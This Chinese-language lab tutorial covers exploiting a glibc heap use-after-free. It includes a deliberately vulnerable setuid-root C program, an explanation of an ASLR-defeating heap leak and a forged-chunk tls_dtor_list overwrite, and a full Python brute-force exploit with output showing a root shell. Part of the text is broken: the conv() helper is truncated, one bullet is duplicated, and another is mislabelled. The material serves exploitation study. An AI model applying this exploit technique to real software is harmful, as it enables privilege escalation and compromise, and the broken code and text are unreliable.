

# 0x00 prepare

> What is use-after-free (UAF)?

继续使用已经被 free 的堆空间可能会导致任意代码执行，这样的 bug 称为 UFA (use after free)。

# 0x10 lab

存在漏洞的示例程序

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#define BUFSIZE1 1020
#define BUFSIZE2 ((BUFSIZE1/2) - 4)

int main(int argc, char **argv) {

 char* name = malloc(12); /* [1] */
 char* details = malloc(12); /* [2] */
 strncpy(name, argv[1], 12-1); /* [3] */
 free(details); /* [4] */
 free(name);  /* [5] */
 printf("Welcome %s\n",name); /* [6] */
 fflush(stdout);

 char* tmp = (char *) malloc(12); /* [7] */
 char* p1 = (char *) malloc(BUFSIZE1); /* [8] */
 char* p2 = (char *) malloc(BUFSIZE1); /* [9] */
 free(p2); /* [10] */
 char* p2_1 = (char *) malloc(BUFSIZE2); /* [11] */
 char* p2_2 = (char *) malloc(BUFSIZE2); /* [12] */

 printf("Enter your region\n");
 fflush(stdout);
 read(0,p2,BUFSIZE1-1); /* [13] */
 printf("Region:%s\n",p2); 
 free(p1); /* [14] */
}
```

编译指令

```shell
# echo 2 > /proc/sys/kernel/randomize_va_space 
$ gcc -o vuln vuln.c
$ sudo chown root vuln
$ sudo chgrp root vuln
$ sudo chmod +s vuln
```

重要：不同于之前，`ASLR`在这里打开了，所以在这里我么需要利用信息泄漏和暴力破解绕过来`ASLR`。

上面存在 UAF 漏洞的代码存在于标号[6]与标号[13]，他们各自的 free 在[5]和[10]，但是他们的指针即使在被 free 过后还被使用。[6]处的 UAF 导致信息泄露，[13]处导致任意代码执行。

## 0x11 analysis

> 什么是信息泄漏？ 攻击者如何撬动它？

在我们的漏洞代码(标号 6)中，信息泄漏被用来获取堆地址，这个被泄漏堆地址帮助攻击者更加容易的计算 ASLR 后堆地址的基地址。
要理解对地址是如何被泄漏的，首先要先理解漏洞代码的前面一部分。

* 行 [1] 分配 16 字节的堆空间给 name.
* 行 [2] 分配 16 字节的堆空间给 details.
* 行 [3] 复制程序的参数 1 (argv[1]) 到 name 的内存区域。
* 行 [4] 和 [5] 释放 name 和 details 内存区域给 glibc 的 malloc。
* 行 [6] 的 `printf()`在 name 被释放后使用它，这回导致地址泄漏。

根据之前的 ptmalloc2，知道 name 和 details 对应的 chunk 的指针是 fast chunk 类型的，当这些 fast chunk 被释放时候他们会被存储进 fast bins 的索引 0.也知道每个 fast bin 包含一个 free chunk 的单链表。因此如每一个我们例子，fast bin 的 index[0] 的单链表如下所示意:

`main_arena.fastbinsY[0] ---> 'name_chunk_address' ---> 'details_chunk_address' ---> NULL`

由于这种单链接，'name'的前四个字节包含'details_chunk'地址。 因此，当 name 被打印时，details_chunk 地址被首先打印。从堆布局，我们知道'details chunk'位于与堆基地址偏移 0x10 处。 因此从泄漏的堆地址减去 0x10，给我们堆基地址！

> 如何实现任意代码执行？

现在已经获得了随机化的堆段的基地址，通过理解易受攻击的代码的后半部分来实现任意代码的执行。

* 行 [7] 分配 16 字节的内存区域给 tmp.
* 行 [8] 分配 1024 字节的内存区域给 p1.
* 行 [9] 分配 1024 字节的内存区域给 p2.
* 行 [10] 释放 p2 指向的内存区域回 glibc malloc.
* 行 [11] 分配 512 字节 内存区域 p2_1.
* 行 [12] 分配 512 字节 内存区域 p2_2.
* 行 [13] 是在 p2 被释放过后开始使用它。
* 行 [14] 释放 p1 指向的内存区域, 这里会导致在退出时候的任意代码执行。

根据之前的知识,我们知道当'p2'被释放到 glibc malloc 时，它被合并到 top chunk 中。后来当请求分配 p2_1 内存时，它会从 top chunk 分配即 p2 和 p2_1 包含相同的堆地址。此外，当请求 p2_2 申请内存时候,也从 top chunk 分配即 p2_2 距离 p2 为 512 字节。因此当在行 13 处发生 p2 指针的 UAF，攻击者控制的数据（最大 1019 字节）被复制到大小仅为 512 字节的 p2_1 中，因此剩余的数据会覆盖 next chunk p2_2 的头部的 size 域。

堆布局：



根据之前的知识，如果攻击者覆盖了 next chunk 头部的 size 域, 就可以即使在 p2_1 已经被分配的状态下戏弄 glibc malloc 进行 unlink.同样在本文中，还将会看到 unlink 一个其 chunk header 是攻击者精心构造且处于被分配状态的 large chunk 可能会导致任意代码执行，攻击者构造伪造的 chunk header 如下所述：

fd 应该指向被释放的 chunk 地址。 从堆布局可发现 p2_1 位于偏移 0x410 处。 因此 fd = heap_base_address（从信息泄漏 bug 获得）+ 0x410。

* fd 应该指向被释放的 chunk 地址。 从堆布局可发现 p2_1 位于偏移 0x410 处。 因此 fd = heap_base_address（从信息泄漏 bug 获得）+ 0x410。
* bk 也应该指向被释放的 chunk 的地址。 从堆布局可发现 p2_1 位于偏移 0x410 处。 因此 fd = heap_base_address（从信息泄漏 bug 获得）+ 0x410。
* fd_nextsize 该指向 tls_dtor_list - 0x14。tls_dtor_list 属于 glibc 的私有匿名映射段，段地址是被随机化的。因此攻破随机随机化可以使用暴力破记得技术。

bk_nextsize 应该指向包含 dtor_list 元素的堆地址!system dtor_list 被攻击者在 feak chunk header 后注入，而 setuid dtor_list 被攻击者注入是用来替代 p2_2 指向的堆区域。从堆布局还可知道 system 和 setuid 的 dtor_list 分别位于偏移量 0x428 处和 0x618 处。

Exp:

```python
#exp.py
#!/usr/bin/env python
import struct
import sys
import telnetlib
import time

ip = '127.0.0.1'
port = 1234

def conv(num): return struct.pack("<I
def send(data):
 global con
 con.write(data)
 return con.read_until('\n')

print "** Bruteforcing libc base address**"
libc_base_addr = 0xb756a000
fd_nextsize = (libc_base_addr - 0x1000) + 0x6c0
system = libc_base_addr + 0x3e6e0
system_arg = 0x80482ae
size = 0x200
setuid = libc_base_addr + 0xb9e30
setuid_arg = 0x0

while True:
 time.sleep(4)
 con = telnetlib.Telnet(ip, port)
 laddress = con.read_until('\n')
 laddress = laddress[8:12]
 heap_addr_tup = struct.unpack("<I", laddress)
 heap_addr = heap_addr_tup[0]
 print "** Leaked heap addresses : [0x%x] **" %(heap_addr)
 heap_base_addr = heap_addr - 0x10
 fd = heap_base_addr + 0x410
 bk = fd
 bk_nextsize = heap_base_addr + 0x618
 mp = heap_base_addr + 0x18
 nxt = heap_base_addr + 0x428

 print "** Constructing fake chunk to overwrite tls_dtor_list**"
 fake_chunk = conv(fd)
 fake_chunk += conv(bk)
 fake_chunk += conv(fd_nextsize)
 fake_chunk += conv(bk_nextsize)
 fake_chunk += conv(system)
 fake_chunk += conv(system_arg)
 fake_chunk += "A" * 484
 fake_chunk += conv(size)
 fake_chunk += conv(setuid)
 fake_chunk += conv(setuid_arg)
 fake_chunk += conv(mp)
 fake_chunk += conv(nxt)
 print "** Successful tls_dtor_list overwrite gives us shell!!**"
 send(fake_chunk)

 try: 
  con.interact()
 except: 
  exit(0)
```

因为暴力破解需要多次尝试才可能成功，所以把`vlun`通过 shell 脚本运行成网络服务器，这样可以在他崩溃的时候重新启动。

```shell
#vuln.sh
#!/bin/sh
nc_process_id=$(pidof nc)
while :
do
 if [[ -z $nc_process_id ]]; then
 echo "(Re)starting nc..."
 nc -l -p 1234 -c "./vuln sploitfun"
 else
 echo "nc is running..."
 fi
done
```

执行上述 exp，获得 root shell。

```shell
Shell-1$./vuln.sh
Shell-2$python exp.py
...
** Leaked heap addresses : [0x889d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
** Leaked heap addresses : [0x895d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
id
uid=0(root) gid=1000(bala) groups=0(root),10(wheel),1000(bala) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
exit
** Leaked heap addresses : [0x890c010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
...
$
```

### reference

[sploitfun](https://sploitfun.wordpress.com/2015/06/16/use-after-free/)
[Revisiting Defcon CTF Shitsco Use-After-Free Vulnerability – Remote Code Execution](http://v0ids3curity.blogspot.in/2015/02/revisiting-defcon-ctf-shitsco-use-after.html)
